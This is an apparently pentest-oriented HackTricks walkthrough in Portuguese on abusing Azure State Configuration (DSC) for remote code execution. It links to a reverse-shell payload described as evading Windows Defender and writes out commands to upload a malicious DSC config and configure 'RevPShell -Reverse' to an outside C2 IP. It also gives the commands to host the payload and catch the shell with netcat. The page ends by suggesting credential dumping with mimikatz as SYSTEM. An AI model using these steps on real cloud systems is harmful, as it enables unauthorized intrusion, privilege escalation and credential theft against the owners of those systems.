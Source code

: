 # Az - State Configuration RCE

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

**Este post foi copiado de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Preparação da Infraestrutura do Servidor Remoto (C2) <a href="#f0fa" id="f0fa"></a>

Eu estarei hospedando uma versão simplificada do payload Nishang Invoke-PowerShellTcp.ps1 do servidor remoto "40.84.7.74", que é a máquina Kali. O nome do payload será "RevPS.ps1". Para evitar que o script Nishang seja excluído pelo Windows Defender por qualquer motivo (talvez você prefira deixar o arquivo no disco), tenho uma versão leve aqui que você pode usar e que irá contornar o Defender: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Isso será hospedado por um servidor Python Simple no Kali.

### Passo 1 — Criar Arquivos <a href="#89de" id="89de"></a>

Precisaremos criar outro arquivo de configuração DSC. Um modelo pode ser baixado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Este arquivo de configuração usará a mesma função de gravação de arquivo que usamos anteriormente. Desta vez, o conteúdo inclui código para baixar e executar um payload de nosso servidor remoto. Além disso, estamos usando uma função de tarefa agendada disponível no módulo _ComputerManagementDsc_. A função de tarefa agendada será o papel-chave na execução e nos fornecerá privilégios do SYSTEM mais tarde.

Também baixaremos um script que será usado para publicar nossa configuração na VM. Isso está localizado aqui: [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Esses arquivos servirão como modelo. **Você precisará preencher os nomes de variáveis e parâmetros com o que está usando**. Isso inclui os nomes de recursos, caminhos de arquivos e os nomes de servidor externo/payload que você está usando. Consulte os comentários no código.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 2 — Compactar Arquivo de Configuração <a href="#c2c2" id="c2c2"></a>

Com nossos dois arquivos criados, compactaremos o arquivo **'reverse\_shell\_config.ps1'** para que possa ser enviado para a Conta de Armazenamento

```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```

<figure><img src="../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

### Passo 3 — Definir Contexto de Armazenamento e Fazer Upload <a href="#bed9" id="bed9"></a>

Novamente, configuraremos o contexto de nossa Conta de Armazenamento, o que já fiz. Já tenho um contêiner chamado '**azure-pentes**t', então é aqui que publicarei o meu:

```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```

<figure><img src="../../../../.gitbook/assets/image (82).png" alt=""><figcaption></figcaption></figure>

### Passo 4 — Preparar a Máquina Kali <a href="#20fb" id="20fb"></a>

Em nossa máquina Kali, podemos simplesmente _wget_ nosso payload do PowerShell. O script de reverse-shell bruto está localizado aqui: [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).

```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```

<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Precisamos editar o script de reverse-shell adicionando nossos parâmetros, para que a VM do Windows saiba onde se conectar assim que for executada. No meu caso, adiciono o seguinte:

```
RevPShell -Reverse 40.84.7.73 443
```

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Passo 5 — Publicar Arquivo de Configuração <a href="#9ad6" id="9ad6"></a>

Agora executaremos nosso arquivo de configuração. Eu configurei o meu para ser publicado na área de trabalho para uma melhor visualização, mas pode ser publicado em qualquer lugar. Depois de alguns minutos, veremos que o script de reverse-shell foi publicado!

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Passo 6 — Hospedar Payload e Configurar Listener <a href="#c55f" id="c55f"></a>

Depois de publicarmos a configuração, podemos iniciar simultaneamente um servidor Python SimpleHTTPServer na porta 80 para hospedar o payload, juntamente com um listener netcat para capturar a conexão:

```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```

Vemos que a tarefa agendada foi executada e nosso payload foi recuperado e executado na memória com privilégios do **SYSTEM**!

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusão <a href="#1ec2" id="1ec2"></a>

Isso agora abre a porta para muitas possibilidades. Como temos um shell em execução como **SYSTEM**, podemos despejar credenciais com mimikatz (potencialmente arriscado dependendo de quão maduro é o EDR para recursos em nuvem). Se você despejar credenciais, há uma boa chance de que elas possam ser reutilizadas